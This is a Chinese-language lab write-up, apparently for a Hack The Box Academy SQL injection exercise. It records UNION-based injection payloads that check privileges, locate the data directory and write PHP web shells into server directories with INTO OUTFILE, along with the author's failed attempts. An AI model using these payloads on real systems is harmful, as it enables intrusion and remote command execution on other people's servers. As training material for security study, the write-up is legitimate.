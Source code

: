 ```SQL
' UNION SELECT "","file written successfully!","","",""  into outfile '/var/www/html/proof.txt '-- -
' UNION SELECT "","file written successfully!","","",""  into outfile '/var/www/proof.txt'-- -
' UNION SELECT "","file written successfully!","","",""  into outfile '/var/proof.txt'-- -
' UNION SELECT "","file written successfully!","","",""  into outfile '/proof.txt'-- -
```

发现当前用户对上述目录均无可写权限。

查看当前用户的权限，注入 `' UNION SELECT 1, user(), grantee, privilege_type, is_grantable FROM information_schema.user_privileges-- -`，发现当前 root 用户对数据库有所有权限。

此时进入一段瓶颈期。在 [Writing Files](https://academy.hackthebox.com/module/33/section/793) 的题目当中我曾使用 `'<?php system(dir); ?>'` 注入，以查看当前目录，可是没有可写目录，该注入也无法实现，形成了一个死循环。

尝试在 Cheat Sheet 中查找，未发现可用的注入载荷。但是，Cheat Sheet 中给出了 [Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass)，虽然里面同样没有合适的载荷，但给出了许多的参考链接。其中，[PentestMonkey's mySQL injection cheat sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet) 提到了查找数据库的方法：`SELECT @@datadir;` 

尝试注入 `' UNION select 1,2,3,4,@@datadir-- -`，发现数据库所在目录为 `/var/lib/mysql/`。

再次尝试注入，在 `/var/lib/mysql` 目录下生成 web shell 文件：`' UNION SELECT 1,'<?php system(dir); ?>', "", "", ""  into outfile '/var/lib/mysql/shell1.php'-- -`，此时注入成功。

然而，在浏览器网址输入框中运行 shell 文件 `/shell1.php?id=0` 失败，同样，尝试了如下 URN，都失败了。

```
/var/lib/mysql/shell1.php?id=0
/lib/mysql/shell1.php?id=0
/mysql/shell1.php?id=0
```

尝试 `'UNION SELECT 1,LOAD_FILE("/var/lib/mysql/shell1.php?id=0"), "", "", ""-- -` 和 `'UNION SELECT 1,LOAD_FILE("/var/lib/mysql/shell1.php"), "", "", ""-- -`，均无法显示理想的内容。

尝试换一个位置去写入 web shell：`' UNION SELECT 1,'<?php system(dir); ?>', "", "", ""  into outfile '/dashboard/shell1.php'-- -`，提示 `No such file or directory`。显然根目录下没有 `/dashboard` 这一目录。这时我才真正意识到 `/dashboard/dashboard.php` 路径并不完整的问题，而使用 `dir` 来查看完整路径的想法也暂时无法实现，必须要通过其他方式来找出完整路径，才能有找出可写目录的线索。

尝试注入 `' UNION SELECT 1,'<?php system("dir /var/www/html"); ?>', "", "", "" into outfile '/var/lib/mysql/dashboard/shell1.php'-- -` ，显然 `/dashboard` 不在 `/var/lib/mysql` 之下。

最后一步，寻找 flag。下方是我所经历过的一些错误尝试。在下方的载荷中的所有目录下均没有 flag 的身影。

```SQL
cn' UNION SELECT "",'<?php system("dir /var/www/html"); ?>', "", "", "" into outfile '/var/www/html/dashboard/shell1.php'-- -

cn' UNION SELECT "",'<?php system("dir /var/www"); ?>', "", "", "" into outfile '/var/www/html/dashboard/shell2.php'-- -

cn' UNION SELECT "",'<?php system("dir /var"); ?>', "", "", "" into outfile '/var/www/html/dashboard/shell3.php'-- -
```

## 截图（10、11 题有解析）
